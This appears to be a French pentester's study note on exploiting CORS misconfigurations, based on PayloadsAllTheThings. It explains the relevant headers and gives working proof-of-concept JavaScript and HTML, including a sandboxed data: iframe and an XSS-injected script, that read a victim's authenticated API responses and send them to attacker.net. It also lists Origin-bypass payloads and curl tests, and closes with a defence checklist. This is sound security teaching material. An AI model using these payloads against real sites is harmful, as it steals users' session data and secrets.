

# 🌐 CORS — Cross-Origin Resource Sharing (attaques)

> [!info] **En 1 phrase**
> CORS = mécanisme du navigateur qui décide si une page peut lire une réponse d'une **autre origine** ;
> mal configuré (Origin reflété, `null` autorisé, wildcard + credentials...), il permet à une **page attaquante**
> de faire des requêtes **avec les cookies/session de la victime** et de **voler les données** renvoyées.
>
> Source principale : **[PayloadsAllTheThings — CORS Misconfiguration](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CORS%20Misconfiguration/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Le navigateur bloque **par défaut** la lecture cross-origin (SOP). Mais si le serveur répond
> `Access-Control-Allow-Origin` avec l'origine attaquante **+ `Access-Control-Allow-Credentials: true`**,
> le navigateur autorise notre JS à **lire la réponse**. La requête part de toute façon (cookies inclus) —
> seule la **lecture** était bloquée, c'est elle qu'on déverrouille.

---

## 📖 Rappel CORS — comment ça marche côté navigateur

### Les 2 types de requêtes

| Type | Condition | En-têtes |
|---|---|---|
| **Simple** | GET/HEAD/POST + headers simples (`Content-Type: application/x-www-form-urlencoded`, `text/plain`, `multipart/form-data`) | Pas de preflight |
| **Preflight** | Méthode custom, header custom, `Content-Type: application/json`... | `OPTIONS` d'abord, puis la vraie requête |

### Échange Preflight

```http
OPTIONS /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type, authorization
```

```http
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: content-type, authorization
Access-Control-Max-Age: 3600
```

> [!warning] ⚠️ **2 réponses à contrôler** : la réponse au `OPTIONS` (preflight) **et** la réponse à la vraie requête.
> Beaucoup d'apps sont sûres sur l'une et vulnérables sur l'autre (ou l'inverse).

### Les 3 en-têtes à toujours vérifier

| En-tête | Rôle | Valeur dangereuse |
|---|---|---|
| `Access-Control-Allow-Origin` (ACAO) | Quelle origine a le droit de lire | Origine attaquante reflétée, `null`, `*` |
| `Access-Control-Allow-Credentials` (ACAC) | Autorise les cookies cross-origin | `true` **avec** ACAO contrôlable = danger |
| `Access-Control-Allow-Headers` | Headers autorisés au preflight | `authorization` autorisé = vol de Bearer possible |

> [!warning] ⚠️ **Règle du navigateur** : `ACAO: *` **+** `ACAC: true` est **impossible légalement** (le navigateur refuse `*`
> quand les credentials sont demandés). Si tu vois les deux, l'une des deux valeurs est reflétée dynamiquement → creuse.

---

## 🎯 Misconfigurations classiques

| # | Misconfig | Réponse vulnérable | Risque |
|---|---|---|---|
| 1 | **ACAO reflété** | `ACAO: <Origin reflétée>` + `ACAC: true` | **Critique** — vol de session/données |
| 2 | **ACAO: null** | `ACAO: null` + `ACAC: true` | **Critique** — exploitable via iframe sandboxée |
| 3 | **ACAO: `*` sans credentials** | `ACAO: *` | Moyen — données publiques / pivot interne |
| 4 | **ACAO: `*` + credentials** | `ACAO: *` + `ACAC: true` (rare) | Critique si le serveur ne respecte pas la spec |
| 5 | **Origine vérifiée par prefix/suffix** | `evilexample.com` accepté | Critique — domaine approchant |
| 6 | **Regex faible (point non échappé)** | `^api.example.com$` vs `^api\.example.com$` | Critique — `apiiexample.com` |
| 7 | **Double origine** | `evil.comvictim.com` | Selon la logique de validation |
| 8 | **Wildcard partiel** | `*.example.com` accepté | Moyen/Critique selon l'implémentation |

> [!warning] ⚠️ **Rappel spec** : `*` est le **seul** wildcard CORS valide. `https://*.example.com` n'existe pas côté
> navigateur ; si le serveur accepte cette valeur, c'est qu'il fait sa **propre validation** → testable.

---

## 💥 Exploitation — Origin reflété

### Implémentation vulnérable

```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=abc123

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true

{"api_key": "SECRET", "email": "victime@mail.com"}
```

> [!tip] 💡 **Test 1er niveau** : relance la requête en changeant l'`Origin` dans Burp Repeater.
> Si elle est **reflétée telle quelle** dans `ACAO`, c'est vulnérable.

### PoC XHR (js, hébergé sur evil.com)

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://victim.example.com/endpoint', true);
req.withCredentials = true;      // envoie les cookies de session !
req.send();

function reqListener() {
    location = '//attacker.net/log?key=' + encodeURIComponent(this.responseText);
};
```

### PoC fetch (plus moderne)

```js
fetch('https://victim.example.com/endpoint', {
    method: 'GET',
    credentials: 'include',      // = withCredentials: true
}).then(r => r.text()).then(data => {
    new Image().src = 'https://attacker.net/log?key=' + encodeURIComponent(data);
});
```

### PoC HTML cliquable

```html
<html>
    <body>
        <h2>CORS PoC</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
        <script>
            function cors() {
                var xhr = new XMLHttpRequest();
                xhr.onreadystatechange = function () {
                    if (this.readyState == 4 && this.status == 200) {
                        alert(this.responseText);
                        document.getElementById("demo").innerHTML = this.responseText;
                    }
                };
                xhr.open("GET", "https://victim.example.com/endpoint", true);
                xhr.withCredentials = true;
                xhr.send();
            }
        </script>
    </body>
</html>
```

---

## 📦 Exploitation — ACAO: null (iframe sandboxée)

> L'origine `null` est envoyée par : une **iframe sandboxée** (`sandbox` sans `allow-same-origin`),
> un **iframe data: URI**, des redirections, des documents locaux. Le serveur qui fait
> `ACAO: null` + `ACAC: true` est exploitable.

### Réponse vulnérable

```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=abc123

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

{"api_key": "SECRET"}
```

### PoC — iframe `data:` sandboxée

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://victim.example.com/endpoint',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
      location = 'https://attacker.net/log?key=' + encodeURIComponent(this.responseText);
    };
  </script>"></iframe>
```

> [!warning] ⚠️ **Piège** : l'iframe `data:` doit contenir l'attaque complète **en une seule URL** (pas de référence
> à une ressource externe pour le script). Encoder le payload ou l'écrire tel quel comme ci-dessus.

---

## 🌐 Exploitation — Wildcard `*` (sans credentials)

> Si `ACAO: *` **sans** `ACAC: true`, le navigateur **n'enverra jamais les cookies** (spec obligatoire).
> L'attaque ne marche que sur des données **publiques / non authentifiées**, ce qui devient intéressant pour :
> - des **serveurs internes** sans auth (pivot réseau interne !),
> - des endpoints pensés "publics" mais contenant des données sensibles.

### Réponse vulnérable

```http
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[données sans auth]"}
```

### PoC (pas de `withCredentials` — inutile ici)

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://api.internal.example.com/endpoint', true);
req.send();

function reqListener() {
    location = '//attacker.net/log?key=' + this.responseText;
};
```

> [!tip] 💡 **Pivot interne** : demande à la victime de visiter le PoC depuis le **réseau interne** (phishing,
> watering hole, login obligatoire). Ton JS accède aux IP internes (`http://192.168.1.10/...`) si elles répondent `ACAO: *`.

---

## 🧬 Bypass de mauvaises whitelists

> Quand le serveur ne reflète pas l'Origin mais la **compare** à une liste/d'une regex mal implémentée.

### 1. Préfixe / suffixe (domaine approchant)

```http
Origin: https://evilexample.com          # servi à partir d'un domaine que TU contrôles
```

### 2. Regex faible — point non échappé

```http
# Serveur : regex ^api.example.com$ (le point = n'importe quel char !)
Origin: https://apiiexample.com          # i remplace le point → accepté
```

> [!warning] ⚠️ **Le point dans une regex** matche **n'importe quel caractère**. `^api\.example\.com$` (échappé)
> ≠ `^api.example.com$` (faux). Teste `apiiexample.com`, `apixexample.com`...

### 3. Suffixe / double domaine

```http
Origin: https://example.com.evil.com     # suffixe valide → souvent accepté si regex ^.*example\.com
Origin: https://evil.com.example.com
Origin: https://example.com.com          # double TLD
```

### 4. Wildcard partiel (implémentation custom)

```http
Origin: https://a.example.com.attacker.io
Origin: https://attacker.io.example.com
```

### 5. Attaques mixtes sur la valeur contrôlée

```http
# Encodages / casse
Origin: https://evil.com%2f@victim.example.com
Origin: http://victim.example.com.        # point final (canonicalisation)
Origin: https://VICTIM.EXAMPLE.COM
Origin: null.evil.com
```

> [!tip] 💡 **Méthodo** : faire varier **une seule partie** de l'Origin à la fois et observer si `ACAO`
> la reflète. Le reflètement dans la réponse = acceptée. Automatise avec CORScanner (cf. Outils).

### 6. Race condition sur `Vary: Origin`

> Si le serveur calcule `ACAO` en fonction d'une donnée **mutée entre 2 requêtes** (session, cache, feature flag),
> deux requêtes identiques peuvent recevoir des réponses différentes (l'une permissive, l'autre non).
> Rejouer / paralleliser en Burp Intruder avec la même Origin.

---

## 🔏 CORS + tokens (Bearer / cookies)

### Cas cookies (session classique)

```http
# Requête
GET /api/me HTTP/1.1
Host: victim.com
Origin: https://evil.com
Cookie: session=abc

# Réponse vulnérable
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true

{"username":"victime","role":"admin"}
```

### Cas Bearer token (Authorization header)

> Le token est dans un **header custom** → **preflight obligatoire**. La vulnérabilité n'est exploitable que si le
> preflight accepte l'origine attaquante **et** le header `authorization`.

```http
OPTIONS /api/data HTTP/1.1
Host: victim.com
Origin: https://evil.com
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization

HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Headers: authorization      # ← clé !
```

```js
// PoC — on n'a pas le token, mais on peut lire TOUTES les réponses du navigateur
// → ne marche que si le token est attaché automatiquement (cookie) ou réutilisé par XSS.
// Ici : vol des données renvoyées quand la victime a un token actif (session navigateur).
fetch('https://api.victim.com/data', {
    credentials: 'include',
    headers: { 'Authorization': 'Bearer ' + localStorage.getItem('token') }  // si accessible
}).then(r => r.text()).then(d => new Image().src = '//attacker.net/log?key=' + btoa(d));
```

> [!warning] ⚠️ **Bearer ≠ automatique** : contrairement aux cookies, un Bearer n'est **pas envoyé** automatiquement.
> L'attaque CORS seul ne vole un Bearer que si le navigateur le stocke d'une façon récupérable (cookie, localStorage
> lisible par notre page) ou via XSS complémentaire. Le **cookie de session reste le vecteur principal**.

### Cibles privilégiées (API)

- `/api/me`, `/api/profile`, `/api/account` — données personnelles
- `/api/users`, `/api/admin/...` — données d'autres users / admin
- Endpoints avec actions d'état (POST avec `ACAC: true`) → CSRF-like + lecture
- `graphql` / endpoints qui renvoient des tokens dans la réponse

---

## 🔗 CORS avec d'autres vulns

### XSS sur une origine trustée

> Whitelist stricte = les PoC précédents échouent... **mais** si tu as un XSS sur `trusted.example.com`,
> tu peux injecter le payload CORS **depuis cette origine autorisée** → l'attaque marche comme si tu étais legit.

```html
<!-- XSS : https://trusted.example.com/?xss=... -->
<script>
  var req = new XMLHttpRequest();
  req.open('get', 'https://api.example.com/endpoint', true);
  req.withCredentials = true;
  req.onload = function(){ location='//attacker.net/log?key='+this.responseText; };
  req.send();
</script>
```

> [!tip] 💡 **Bonus** : un XSS même mineur sur un sous-domaine trusté (ex: `blog.example.com`) devient une
> **prise de contrôle totale des API** de `example.com` grâce à CORS.

### CORS + null origin

> Le combo des deux : iframe sandboxée (`Origin: null`) + serveur qui whiteliste `null` → pas besoin de
> domaine attaquant du tout, tout se passe dans une `data:` URI.

### CORS + SSRF / pivot interne

> `ACAO: *` sur des services internes (admin panels, APIs métier) = pont depuis le navigateur de la victime
> vers l'interne. Association naturelle avec les découvertes faites en [[SSRF|🌐 SSRF]].

### CORS + CSRF (actions d'état)

> `ACAC: true` ne protège pas contre les **POST cross-origin** (les formulaires/envois partent toujours).
> CORS rend le tout plus dangereux : on peut **envoyer l'action ET lire le résultat**. Voir [[CSRF|🔄 CSRF]].

---

## 🛠️ Outils

| Outil | Type | Usage |
|---|---|---|
| **Burp Suite** | Manuel | Repeater (tester `Origin` custom) + Intruder (fuzzer les variantes d'Origin) |
| **Burp Extension — CO2 / Corsy** | Scan | Scan CORS automatisé sur les endpoints capturés |
| **[Corsy](https://github.com/s0md3v/Corsy)** | Scanner | Détecte reflection, `null`, whitelist faible |
| **[CORScanner](https://github.com/chenjj/CORScanner)** | Scanner | Fuzze `Origin` avec une wordlist de variantes |
| **[CorsOne](https://github.com/omranisecurity/CorsOne)** | Scanner | Découverte rapide de misconfigs CORS |
| **[of-cors](https://github.com/trufflesecurity/of-cors)** | Exploit | Pivot CORS sur les réseaux internes |
| **[PostMessage POC Builder](https://tools.honoki.net/postmessage.html)** | PoC | Générateur de pages PoC |

### Test rapide en ligne de commande

```bash
# Reflète-t-elle l'Origin ?
curl -s -H "Origin: https://evil.com" -i https://victim.com/api/me | grep -i "access-control"

# Test credentials + wildcard (le duo mortel)
curl -s -H "Origin: null" -i https://victim.com/api/me

# Vérifier le preflight
curl -s -X OPTIONS -H "Origin: https://evil.com" -H "Access-Control-Request-Method: GET" \
     -H "Access-Control-Request-Headers: authorization" -i https://victim.com/api/data
```

> [!warning] ⚠️ **curl ≠ navigateur** : curl affiche la réponse brute **peu importe** les headers CORS.
> Le navigateur, lui, **masque la réponse** à ton JS si les headers sont absents/mauvais.
> Une réponse lisible en curl n'est pas forcément exploitable en CORS. L'inverse est vrai aussi : la vraie
> validation se fait dans le navigateur → **tester avec une vraie page** (Burp Collaborator / domaine de test).

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Whitelist stricte** | Liste explicite d'origines exactes (scheme + host + port), pas de regex custom |
| **Ne jamais refléter l'Origin** | Toute valeur non présente dans la whitelist → pas d'`ACAO` du tout |
| **Jamais `*` avec credentials** | `ACAC: true` exige une origine **explicite** ; `*` bannit les cookies de toute façon |
| **Jamais `null`** | L'origine `null` est triviale à obtenir (iframe sandboxée) → jamais whitelister |
| **`Vary: Origin`** | Réponse avec `ACAO` dynamique → ajouter `Vary: Origin` pour le cache (évite le poisoning) |
| **Ne pas faire confiance aux encodages** | Normaliser/canonicaliser l'Origin avant comparaison |
| **Preflight cohérent** | Même logique sur `OPTIONS` et sur la vraie requête ; restreindre `Access-Control-Allow-Headers` |
| **Pas de wildcard partiel** | `*.example.com` n'existe pas côté navigateur ; ne pas l'implémenter côté serveur |
| **Tester régulièrement** | Scans CORS dans le pipeline (Corsy/CORScanner en CI) |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre logique d'attaque**
> 1. Identifier un endpoint API sensible (auth requise).
> 2. En Burp Repeater, injecter `Origin: https://evil.com` → la réponse reflète-t-elle ?
> 3. Vérifier **les 3 headers** : `ACAO`, `ACAC`, `Allow-Headers`.
> 4. Teste les variantes : `null`, prefix/suffix, regex faible, wildcard.
> 5. Si OK → PoC complet (iframe `data:` pour `null`, page web sinon) → exfil vers ton serveur.
> 6. Valide **dans un vrai navigateur** (les cookies, la session de la victime, le preflight).

> [!warning] ⚠️ **Pièges classiques**
> - **ACAO: null ≠ invulnérable** : si la réponse contient `null`, teste immédiatement l'iframe sandboxée.
> - **ACAC: true est la clé** : sans lui, même avec ACAO reflété, les **cookies ne partent pas** → impact réduit aux données publiques.
> - **`*` ne marche jamais avec credentials** (spec) — si tu vois les deux, l'implémentation est custom → la tester.
> - **Le point dans les regex** : `^api.example.com$` matche `apiiexample.com` — toujours échapper les points.
> - **curl trompeur** : il ignore CORS. Un test en navigateur (console + Network tab) est la seule preuve exploitable.
> - **Le cookie `SameSite`** peut neutraliser l'attaque (`SameSite=Lax/Strict` bloque l'envoi cross-origin) — vérifier le flag.
> - **Ne pas oublier le preflight** : une API JSON (`Content-Type: application/json`) passe d'abord par `OPTIONS` — la vuln peut n'être que là.
> - **Le scope** : tester aussi les sous-domaines API (`api.`, `internal.`, `admin.`) souvent moins protégés.
> - **Exfil fiable** : `encodeURIComponent`/`btoa` la réponse avant de la mettre dans l'URL, sinon les caractères spéciaux cassent tout.

> [!tip] 💡 **Rappel spec**
> - `*` = seul wildcard valide ; `https://*.example.com` **n'est pas du CORS**.
> - Le navigateur **n'envoie jamais les cookies** quand `ACAO: *` (même si JS met `withCredentials: true`).

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[SSRF|🌐 SSRF]]
- [[Attaques JWT|🔏 JWT]]
- [[CSRF|🔄 CSRF]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — CORS Misconfiguration](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CORS%20Misconfiguration/README.md)
- 🧪 Labs : [PortSwigger — CORS](https://portswigger.net/web-security/all-labs#cross-origin-resource-sharing-cors) (origin reflection, trusted null origin, insecure protocols, internal pivot)
